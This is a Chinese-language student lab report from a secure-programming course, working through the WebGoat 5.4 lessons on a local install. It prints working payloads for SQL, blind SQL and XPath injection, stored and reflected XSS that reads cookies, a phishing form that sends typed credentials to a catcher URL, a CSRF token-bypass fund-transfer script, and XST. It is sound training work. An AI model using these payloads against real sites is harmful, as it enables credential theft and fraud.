

# 安全编程技术-课程报告-Lab1.3&1.4&1.5

[TOC]

## Lab1.3

- 成功下载WebGoat 5.4

  

- 尝试在80端口启动WebGoat


可见端口已被占用。

查看端口占用


可见是系统进程占用着80端口。遂放弃在80端口上启动。

- 尝试在8080端口启动


启动成功

- 访问`http://localhost:8080/WebGoat/attack`


成功访问。

- 登录

去网上查了账号密码，得知默认账号密码都是`guest`


登录成功

## Lab1.4

下载OWASP ZAP，尝试本地拦截发往8080端口的请求。

正确配置代理之后发现windows的本地数据包由于windows的系统设置并不会走配置的代理。于是尝试使用IPv4网址访问。配置完后发现访问报错。


于是决定尝试将WebGoat部署到服务器上，但是并未寻找到适合Linux服务器的WebGoat下载包。

随后将抓包测试工具改成了`Fiddler`，在Fiddler中配置了WinConfig，解除Edge浏览器的本地回环访问限制，成功抓到本地的数据包。


修改过滤器，只显示localhost包信息，并拦截所有POST请求和带queryString的GET请求


### Injection Flaws

#### Command Injection

点击view按钮之后，请求被拦截，Fidller修改如下


重新释放之后显示注入成功。


#### Log Spoofing

在username中输入`Smith%0d%0aLogin Succeeded for username: admin`即可实现在灰色框中显示admin已经成功登录的错觉。


#### XPath Injection

在username中输入`Smith' or 1=1 or 'a'='a`即可使得用户名认证永远为`True`。


#### String SQL Injection

构建永远为True的WHERE语句即可


#### LAB: SQL Injection

##### Stage1

由于前端限制死了可以输入的密码长度，所以我们采用修改请求的方式进行SQL注入。

拦截请求如下：


修改密码进行SQL注入：


成功完成登录


##### Stage2

**THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT**

##### Stage3

首先使用`Stage1`的方法绕过登录验证进入用户界面。


然后点击`ViewProfile`，拦截请求，修改`employee_id`进行SQL注入。这里默认BOSS的薪水是最高的。


完成注入，成功拿到信息。


##### Stage4

**THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT**

#### Modify Data with SQL Injection

直接使用分号结束上一个SQL，即可执行额外的SQL语句


#### Add Data with SQL Injection

跟上一个注入的做法是一样的。


#### Database Backdoors

##### Stage1

只需要在WHERE语句最后添加`1=1`即可看到所有的信息，然后可以使用UPDATE更新所有人的`salary`。


##### Stage2

只需要使用任意的id和一个分号结束上一个SQL，即可在后方插入新的自己想要的SQL语句。


#### Blind Numeric SQL Injection

使用类似以下的语句：

`101 AND ((SELECT pin FROM pins WHERE cc_number='1111222233334444') > 1000 );`

即可得知 pin 的范围，使用二分法逼近即可最后得知 pin 为`2364`。


#### Blind String SQL Injection

和上方的类似，在`ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz`中使用二分就可以一个一个字符地拿到想要的值，判断的SQL语句使用SUBSTRING来获得中间的任意字符。

`101 AND (SUBSTRING((SELECT name FROM pins WHERE cc_number='4321432143214321'), 1, 1) < 'M' );`

ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz

最后拿到值为`Jill`


### Cross-Site Scripint

#### Phishing with XSS

构造钓鱼表单，在用户点击登录提交信息的时候使用Image的src自动发送Get请求完成网络攻击。

具体攻击XSS脚本如下：

```html
</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
```


#### LAB: Cross Site Scripting

##### Stage1

首先以Tom的身份登录。


在`ViewProfile`中修改Tom的信息并进行XSS攻击。


然后以Jerry的身份登录，查看Tom的信息


收到了XSS攻击。

##### Stage2

**THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT**

##### Stage3

在我们没有完成Stage2的情况下，该任务显得没什么意义（X

我们按照提示登录David的账号查看Bruce的信息即可。


##### Stage4

**THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT**

##### Stage5

我们登录Larry的账户，在Search中输入`<script>alert("test")</script>`并搜索即可完成攻击。


##### Stage6

**THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT**

#### Stored XSS Attack

在message框中输入`<script>alert(document.cookie);</script>`并提交即可完成储存型XSS攻击。


#### Reflected XSS Attacks

可以在`digit access code`中输入`<SCRIPT>alert(document.cookie);</SCRIPT>`来完成反射型XSS攻击。


#### Cross Site Request Forgery (CSRF)

输入如下即可构建出一个自动提交信息的img标签。


提交之后即可成功完成CSRF攻击。

#### CSRF Prompt By-Pass

我们使用img标签的src属性构造两个链接，一个用于发送转移资金的数量，一个用于发送确认信息，即可完成CSRF攻击。


#### CSRF Token By-Pass

访问`http://localhost:8080/WebGoat/attack?Screen=2&menu=900&Num=50&transferFunds=main`


点击提交，即可拿到`CSRFToken`


但是我们多试几次就可以发现，这个`CSRFToken`每次都会变化，所以我们就需要在一次表单提交之前就拿到这个CSRFToken。

所以我们构造如下的脚本，首先使用XHR构造GET请求从`transferFunds=main`的页面中将`CSRFToken`拿到，随后我们再用XHR构造POST请求，向被攻击url发送资金转移请求。

```html
<script>
function transferFunds(token) {
	xmlHTTP = new XMLHttpRequest();
	var transferURL= "attack?Screen=2&menu=900&transferFunds=4000&CSRFToken=" + token;
	xmlHTTP.open("POST", transferURL, false);
	xmlHTTP.send();
    alert("hello")
}
function getCSRFToken() {
	var xmlHTTP = new XMLHttpRequest();
	var tokenURL = "attack?Screen=2&menu=900&transferFunds=main";
	xmlHTTP.open("GET", tokenURL, true);
	xmlHTTP.responseType="document";
	xmlHTTP.onreadystatechange = function () {
		if(xmlHTTP.readyState == 4 && xmlHTTP.status == 200) {
			var tokenResponse = xmlHTTP.response;
			var tokenHits = tokenResponse.getElementsByName("CSRFToken");
			var token = (tokenHits[0].value);
			transferFunds(token);
		}
	}
	xmlHTTP.send();
}
getCSRFToken()
</script>
```

我们提交并执行之后，会弹出`hello`框


随后我们刷新页面，即可发现任务已经完成。


#### HTTPOnly Test

根据提示即可得知本浏览器支持HttpOnly并有客户端写入保护。



#### Cross Site Tracing (XST) Attacks

同上方反射型XSS攻击，我们对输入 digit access code 的 input 框进行攻击，输入以下代码：

```html
<script type="text/javascript">if ( navigator.appName.indexOf("Microsoft") !=-1) {var xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");xmlHttp.open("TRACE", "./", false); xmlHttp.send();str1=xmlHttp.responseText; while (str1.indexOf("\n") > -1) str1 = str1.replace("\n","<br>"); document.write(str1);}</script>
```

即可完成XST攻击。


## Lab 1.5

### Buffer Overflows

#### Off-by-One Overflows


通过实验可以发现，`Room Number`一栏可以无限制输入。


在第二个页面，我们通过点击按钮后拦截请求可以发现，该页面将上一个页面中的三个输入当做隐藏的输入框，也同时进行了请求。


于是我们输入非常长的字符串来进行 Buffer Overflow 攻击。我们构造了长为5000的字符串，可以发现`response`中已经出现了 Buffer Overflow, 因此我们成功拿到了对应的VIP名和房间号。


返回输入正确的VIP名，成功完成课程。


该课程已经全部完成。


### Code Quality

#### Discover Clues in the HTML


我们根据提示打开开发者调试工具查看


可以看见注释中有临时的管理员账号密码，我们将其输入


成功登录。

该课程已经全部完成。


